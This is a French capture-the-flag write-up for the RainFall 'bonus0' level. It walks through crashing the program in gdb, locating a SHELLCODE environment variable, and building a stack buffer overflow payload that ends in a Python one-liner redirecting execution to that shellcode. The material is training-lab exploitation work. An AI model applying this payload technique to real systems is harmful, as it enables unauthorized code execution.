 Pour une fois le programme n'attends pas d'argument.

Il propose deux prompt et concatene les deux string avec un espace au milieu.

bonus0@RainFall:~$ ./bonus0
 -
a
 -
b
a b

On va essayer de voir si on peut faire segfault le programme et si oui a partir de combien :

La premiere entree va jusque 4096 sans segfault, par contre la deuxieme segfaut au 17e charactere.

(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0
 -
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq
 -
AAAAAAAAAAAAAAAAAA
qqqqqqqqqqqqqqqqqqqqAAAAAAAAAAAAAAAAAA AAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00414141 in ?? ()
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0
 -
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq
 -
AAAAAAAAAAAAAAAAA
qqqqqqqqqqqqqqqqqqqqAAAAAAAAAAAAAAAAA AAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb7e40041 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb)

avec gdb on s'apercoit que notre overflow du buffer ecrit sur esp, et qu'un charactere de moins deplace de 4 . 

(gdb) x/4s $esp-4
0xbffff70c:	 "A"
0xbffff70e:	 "\344\267\001"
0xbffff712:	 ""
0xbffff713:	 ""

On va appeler l'adresse de notre shellcode de l'environnement ici comme au level 2.

#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
    char* ptr = getenv("SHELLCODE");
    printf("%p\n", ptr);
}

>> 0xbffff831 
l'adresse du shellcode

On va construire un payload:

 4095 * A + \n  + padding + adresse du shell code 
   premiere entree  

pour trouver le padding on utiliser 
https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/

offset = 9

python -c "print 'A'*4095 + '\n' + 'A'*9 + '\x31\xf8\xff\xbf'  > /tmp/test

On se segfault plus, la string n'est plus assez longue ! Il suffit de rajouter au moins 7 characteres derriere pour remplir le buffer de 20 ( 20 - 9 - 4(adresse) = 7)


bonus0@RainFall:~$(python -c "print 'A'*4095 + '\n' + 'A'*9 + '\x31\xf8\xff\xbf' + 'A'*7" ; cat -) | ./bonus0